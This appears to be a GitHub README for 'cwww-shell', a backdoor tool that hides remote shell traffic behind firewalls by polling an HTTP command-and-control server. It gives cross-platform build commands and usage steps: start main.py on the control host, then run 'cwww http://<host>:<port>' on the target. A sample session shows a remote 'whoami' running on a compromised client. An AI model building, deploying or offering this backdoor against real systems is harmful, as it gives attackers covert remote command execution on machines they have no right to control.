

<h3 align="left">
    
</h3>

*There is no way to win without losing first*

[](https://founder.entysec.com)
[](https://github.com/enty8080/cwww-shell)
[](https://github.com/enty8080/cwww-shell)
[](https://github.com/enty8080/cwww-shell/forks)
[](https://github.com/enty8080/cwww-shell/stargazers)

A proof-of-concept of placing backdoors behind firewalls using HTTP communication with command & control server. This tool uses HTTP requests to fetch commands and return 
output to a control server.

## Building

```
make TARGET=<target>
```

**NOTE:** For *macOS / iOS* targets you are required to set `SDK` to the desired SDK path before running `make`. For example:

```
make TARGET=<target> SDK=<path>
```

You can find list of supported `TARGET` values for different platforms.

<details>
    <summary>Linux</summary><br>
    <code>aarch64-linux-musl</code><br>
    <code>armv5l-linux-musleabi</code><br>
    <code>i486-linux-musl</code><br>
    <code>x86_64-linux-musl</code><br>
    <code>powerpc-linux-muslsf</code><br>
    <code>powerpc64le-linux-musl</code><br>
    <code>mips-linux-muslsf</code><br>
    <code>mipsel-linux-muslsf</code><br>
    <code>mips64-linux-musl</code><br>
    <code>s390x-linux-musl</code><br>
    <br>
</details>

<details>
    <summary>Windows</summary><br>
    <code>x86_64-w64-mingw32</code><br>
    <code>x86_64-w64-mingw32</code><br>
    <br>
</details>

<details>
    <summary>macOS / iOS</summary><br>
    <code>arm-iphone-darwin</code><br>
    <code>aarch64-iphone-darwin</code><br>
    <code>i386-apple-darwin</code><br>
    <code>x86_64-apple-darwin</code><br>
    <code>aarch64-apple-darwin</code><br>
    <br>
</details>

## Usage

1. Execute `main.py <host> <port>` on command & control server
2. Execute `cwww http://<host>:<port>` on target system

**Example:**

```
Welcome to the cwww-shell v1.0 by Ivan Nikolskiy / enty8080

Introduction: Wait for your client to connect, examine it's output and then
              type in your commands to execute on client. You'll have to
              wait some time. Use ";" for multiple commands.
              Trying to execute interactive commands may give you headache
              so beware. Your target may hang until the daily connect try
              (if set - otherwise you lost).
              You also shouldn't try to view binary data too ;-)
              "echo bla >> file", "cat >> file <<- EOF", sed etc. are your
              friends if you don't like using vi in a delayed line mode ;-)
              To exit this program on any time without doing harm to either
              server or client just type "quit".
              Now have fun.


Waiting for connect ... connect from 127.0.0.1:50194

$ whoami
sent.


Waiting for connect ... connect from 127.0.0.1:50195

felix

Waiting for connect ... connect from 127.0.0.1:50196


Waiting for connect ... connect from 127.0.0.1:50197

$
```
